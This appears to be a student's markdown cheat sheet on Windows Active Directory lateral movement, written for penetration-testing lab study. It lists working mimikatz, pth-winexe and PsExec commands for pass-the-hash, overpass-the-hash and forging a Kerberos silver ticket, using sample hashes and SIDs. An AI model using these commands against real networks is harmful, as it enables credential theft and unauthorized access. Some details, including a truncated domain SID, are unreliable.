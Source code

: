 ### Passing the hash
requires: smb, windows file and print sharing features, local admin rights

```
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

Since the 2014 security update, this technique can not be used to authenticate as any other local admin account.

### Overpass the hash

use NTLM hash to gain Kerberoos TGT service ticket as the user

shift + right mouse key to run as different user

```
sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
```

```
net use \\dc01
klist
```

execite cmd as jeff_admin

```
.\PsExec.exe \\dc01 cmd.exe
```


### Pass the Ticket

**silver ticaket** - custom created ticket

1. Obtain Securoty Identifier SID of the domain.

SID is the unique id for any object in active directory and has a structure like: S-R-I-S

S - identify string as SID
R - revision level, usually set to one
I - identifier-authority value, often 5 with AD
S - subauthority value, that has two parts: domain's numeric number identifier and relative identifier or RID (represent sepcific object in the domain)

example:  S-1-5-21-2536614405-3629634762-1218571035-1116

The SID defining the domain is the entire string except the RID

you can get it by running `whoami /user`

```
corp\offsec S-1-5-21-1602875587-2787523311-2599479668-1103
```

domain SID is: S-1-5-21-1602875587-2787523311-259947966

To craft the tciket:
+ username /user
+  domain name /domain
+ SID /sid
+ fully qualified host name of the service /target
+ service type /service:HTTP
+ password hash of the iis_service account /rc4


use /ptt flag to inject it directly into memory


```
kerberos::purge
kerberos::list

kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt

kerberos::list
```

### Distributed Component Object Model



### Mis

```
There are two other well-known lateral movement techniques worth mentioning: abusing "Windows Management Instrumentation" and "PowerShell Remoting"
```

